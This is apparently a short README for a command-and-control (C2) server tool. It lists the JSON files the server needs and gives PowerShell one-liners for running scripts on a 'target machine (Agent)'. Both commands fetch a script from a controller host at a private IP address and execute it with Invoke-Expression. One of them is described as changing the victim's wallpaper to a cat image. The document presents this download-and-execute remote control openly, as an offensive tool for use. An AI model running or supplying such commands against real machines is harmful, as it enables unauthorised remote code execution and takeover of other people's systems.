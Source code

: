 # C2
You should include 3 JSON files in /server directory: agents.json, commands_output.json, commands.json

## Custom powershell script usage:

To run custom powershell scripts on target machine (Agent), you can execute this command:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://192.168.30.20:5000/static/uploads/script.ps1").Content) )
```

Change wallpaper to cat image:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://192.168.30.20:5000/static/uploads/wallpaper.ps1").Content) )
```